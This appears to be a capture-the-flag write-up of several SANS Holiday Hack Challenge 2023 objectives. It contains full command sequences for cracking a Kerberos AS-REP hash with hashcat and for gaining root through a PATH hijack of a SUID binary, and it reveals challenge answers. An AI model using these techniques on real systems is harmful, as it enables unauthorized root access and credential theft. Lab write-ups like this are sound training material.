- Rewind the game, if you push a block to the wrong place simply hold Backspace and it will rewind time!

- "Space", if you push spacebar it will pause the game

- Return to the previous color palette for the game

- Proceed to the next color palette for the game

Once all pixels are in their correct location (Be careful with the last one! You need to travel some distance to get it to its proper home!) the game will reveal the full QR code. 

![](/docs/assets/images/gcv1.png)

This QR code is linked to 

```javascript
8bitelf.com
```

Visiting the website reveals the flag to plug into your badge. To achieve glory enter the below into your bade

```javascript
santaconfusedgivingplanetsqrcode
```

---

## Objective: Hashcat

Instructions:

```
In a realm of bytes and digital cheer,  
The festive season brings a challenge near.  
Santa's code has twists that may enthrall,  
It's up to you to decode them all.

Hidden deep in the snow is a kerberos token,  
Its type and form, in whispers, spoken.  
From reindeers' leaps to the elfish toast,  
Might the secret be in an ASREP roast?

`hashcat`, your reindeer, so spry and true,  
Will leap through hashes, bringing answers to you.  
But heed this advice to temper your pace,  
`-w 1 -u 1 --kernel-accel 1 --kernel-loops 1`, just in case.

For within this quest, speed isn't the key,  
Patience and thought will set the answers free.  
So include these flags, let your command be slow,  
And watch as the right solutions begin to show.

For hints on the hash, when you feel quite adrift,  
This festive link, your spirits, will lift:  
https://hashcat.net/wiki/doku.php?id=example_hashes

And when in doubt of `hashcat`'s might,  
The CLI docs will guide you right:  
https://hashcat.net/wiki/doku.php?id=hashcat

Once you've cracked it, with joy and glee so raw,  
Run /bin/runtoanswer, without a flaw.  
Submit the password for Alabaster Snowball,  
Only then can you claim the prize, the best of all.

So light up your terminal, with commands so grand,  
Crack the code, with `hashcat` in hand!  
Merry Cracking to each, by the pixelated moon's light,  
May your hashes be merry, and your codes so right!

* Determine the hash type in hash.txt and perform a wordlist cracking attempt to find which password is correct and submit it to /bin/runtoanswer .*
```

Hash.txt contents:

```bash
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966
```

Grep through the hashcat manual to find the proper hashmode for the hash at hand

```bash
elf@d2bdc40ea53d:~$ hashcat --help | grep -i "kerberos"
   7500 | Kerberos 5 AS-REQ Pre-Auth etype 23              | Network Protocols
  13100 | Kerberos 5 TGS-REP etype 23                      | Network Protocols
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
```

We can use our handy poem to determine we need mode to handle *ASREP* or we can leverage the output of the hash.txt file to see we need a mode that can handle Kerberos 5 ASREP, aka 18200.

Hashcat command:

```bash
hashcat -m 18200 hash.txt password_list.txt -w 1 -u 1 --kernel-accel 1 --kernel-loops 1 -o password.txt --force
```

Hashcat output:

```bash
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU @ 2.80GHz, 8192/30063 MB allocatable, 8MCU

Hashes: 1 digests; 1 unique digests, 1 uniue salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=16 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.d7bc3268.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: password_list.txt
* Passwords.: 144
* Bytes.....: 2776
* Keyspace..: 144
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  


Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2...dd1966
Time.Started.....: Sat Dec  9 00:59:53 2023 (0 secs)
Time.Estimated...: Sat Dec  9 00:59:53 2023 (0 secs)
Guess.Base.......: File (password_list.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      817 H/s (0.75ms) @ Accel:1 Loops:1 Thr:64 Vec:16
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 144/144 (100.00%)
Rejected.........: 0/144 (0.00%)
Restore.Point....: 0/144 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-0
Candidates.#1....: 1LuvCandyC4n3s!2022 -> iLuvC4ndyC4n3s!23!

Started: Sat Dec  9 00:59:34 2023
Stopped: Sat Dec  9 00:59:54 2023
```

Checking the contents of password.txt where we had hashcat set to output our cracked password...

```bash
elf@f1f72d836708:~$ cat password.txt 
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966:IluvC4ndyC4nes!
```

Running /bin/runtoanswer and inputting our cracked password

```bash
elf@f1f72d836708:~$ /bin/runtoanswer 
What is the password for the hash in /home/elf/hash.txt ?

> IluvC4ndyC4nes!
Your answer: IluvC4ndyC4nes!

Checking....
Your answer is correct!
```

---

## Objective: Linux PrivEsc

Instructions:

```bash
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Find command for files with the SUID bit set

```bash
find / -perm -u=s -type f 2>/dev/null 
```

Results: 

```bash
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

Why do I care about the SUID bit? 

A program that has the SUID (set user ID) bit set will run in the context of the user that owns that file. This can be very dangerous if set for any binaries that can alter or overwrite files. In addition, if it is set for a binary that calls out to another binary using a non-explicit path, we can create a malicious file where it is trying to reach out to elevate our permissions. 

Strings on the /bin/simplecopy to see if we can identify any files/binaries it may be calling out to

```bash
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
elf@6043897b7dfe:~$ strings /bin/simplecopy | less
bash: less: command not found
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

Within our strings results, it looks like simplecopy is calling out to "cp" to leverage it's file copy function. As stated earlier, calling out a binary without an explicit path can be dangerous...let's see what we can do.

Let's check out where the OS thinks cp lives

```bash
elf@6043897b7dfe:~$ which cp
/usr/bin/cp
```

The OS believes that it should look in /usr/bin when it is asked to run "cp". Well, that's because of the environmental variable PATH. The OS looks at the PATH variable to determine where it should look for "cp" in our case. We can look at all PATH variables and see that /usr/bin is present.

```bash
elf@6043897b7dfe:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let's see if we can create a malicious executable called "cp" and change the PATH variable for the OS to find our new "cp" when running simplecopy

```bash
elf@6043897b7dfe:/tmp$ echo "/bin/bash" > cp 
elf@6043897b7dfe:/tmp$ chmod +x cp 
elf@6043897b7dfe:/tmp$ cat cp
/bin/bash
```

We created a new file called "cp" in /tmp that will launch a bash session and made it executable. If we can get simplecopy to run this, it will run with the root UID and give us root permissions. 

Let's alter our environmental variable PATH. We can set it so it will look through the /tmp directory before /usr/bin, so it will see our new "cp" file first!

```bash
elf@6043897b7dfe:/tmp$ which cp
/usr/bin/cp
elf@6043897b7dfe:/tmp$ export PATH=/tmp:$PATH
elf@6043897b7dfe:/tmp$ which cp
/tmp/cp
```

Now, let's execute simplecopy and copy any file. It doesn't matter what, we just need the binary to execute.

```bash
elf@6043897b7dfe:/tmp$ /bin/simplecopy /home/elf/HELP /tmp 
root@6043897b7dfe:/tmp# 
```

And boom! We are root! 

```bash
root@6043897b7dfe:/tmp# whoami
root
```

Now let's move into the /root directory as the original instructions told us and run the binary in there. It looks like it wants to know who delivers christmas presents.

```bash
root@6043897b7dfe:/root# cd /tmp
root@6043897b7dfe:/tmp# cd /root
root@6043897b7dfe:/root# ls
runmetoanswer
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

Let's see if there is a file somewhere that is holding the answer key for us. We can use grep to recursively search the system for our prompt.

```bash
root@6043897b7dfe:/root# grep -inr "Who delivers christmas presents" / 2>/dev/null
/etc/runtoanswer.yaml:12:  Who delivers Christmas presents?
```

Bingo! /etc/runtoanswer.yaml seems to have our question in it, let's check it out further.

```bash
root@6043897b7dfe:/root# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
exit_on_completion: false
```

It appears our answer is "santa". Let's give it a try. 

```bash
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

GLORY!

---

## Objective: Luggage Lock

Not much skill or technique here... just apply the right amount of pressure until all wheels lock into a position, then apply full pressure to the lock and watch the zipper pop open!

![](/docs/assets/images/ll.png)

---

## Objective: Game Cartidges: Vol 2

The hint for this one is very useful.

```bash
Gameboy 2
From: Tinsel Upatree
Objective: Game Cartridges: Vol 2

1) This feels the same, but different! 2) If it feels like you are going crazy, you probably are! Or maybe, just maybe, you've not yet figured out where the hidden ROM is hiding. 3) I think I may need to get a DIFFerent perspective. 4) I wonder if someone can give me a few pointers to swap.
```

For this objective I used:

- BeyondCompare to view the hex data of the game files

- mGBA as my GameBoy emulator

- Ghidra to view the functions (not needed)

When we try to play the game in the browser, we can see that are being blocked to continue through the path by T-Wiz. We need to find a way to edit the game to allow us access to the other side. 

To find the location that the iframe is pulling the game frame, view your network traffic when you load the game. After you do this a few times, you'll find there appears to be two different versions that can load. 

game0.gb

![](/docs/assets/images/gcv21.png)

game1.gb

![](/docs/assets/images/gcv22.png)

By visiting those domains, I can download a local copy of the GameBoy ROM files. Per the hint, we should take a look at the DIFFerences between the two versions. I used BeyondCompare to do this.

![](/docs/assets/images/gcv23.png)

Let's try changing some of the differences and loading the changed ROM into our emulator to see what happens. 

Game0 hex -> Game1 hex  - change in game

Successful Change 1:

0x02 -> 0x01 - After talking to T-Wiz you are moved to the top of the screen instead of down, we can change this in game1 and be able to get through T-Wizz

After T-Wizz telling me I cannot pass, I walk down to the bottom half of the game now.

![](/docs/assets/images/gcv24.png)

Successful Change 2:

0b80 -> 0400 - Exit the start on the top of the screen rather than the bottom, we can change this in game 1 and be able to exit the start on the bottom of the screen directly to the sparkling spot

After exiting orientation, I am located on the bottom of the game now.

![](/docs/assets/images/gcv25.png)

Room after entering the sparkling vortex.![](/docs/assets/images/gcv26.png)

If you interact with the radio on the right, a morse code message begins to play. After decoding the message, you reveal the answer for your badge.

Morse code audio

https://github.com/cmdncontrol/SANS-Holiday-Hack-Challenge-2023/assets/139015523/4a09b005-fb33-4c2e-aa59-38d765d31fe4

Morse code

```
--. .-.. ----- .-. -.--
```

Decoded

```
GL0RY
```

---

## Objectives: BONUS: Fishing Guide & BONUS: Fishing Mastery

If you inspect the game space and ensure you are set on the iframe while at see, you'll find a note for DEVs ONLY!

![](/docs/assets/images/dev.png)

If we visit

```
https://2023.holidayhackchallenge.com/sea/fishdensityref.html
```

We receive what appears to be heat maps of where the fish are located on the island...but there appears to be A LOT of fish varieties out there. We need some way to streamline our fishing endeavor. 

There's one fish that seems to have a very specific spot it can be caught in. The **Piscis Cyberneticus Skodo**, seems to be hyper located in one spot. After searching through the sea sourcecode some more it revealed.

```
https://2023.holidayhackchallenge.com/sea/assets/minimap.png
```

This image holds the minimap of the islands. I wonder if we can overlay the two images, the heatmap for Cyberneticus and the islands to find our target fishing area...

After inverting the minimap colors, ensuring the same size images, and overlaying we get the following image

![](/docs/assets/images/Cyberheat.png)

We now know we need to fish right under the head of the goose on Steampunk island to find this prestigious fish! 

---
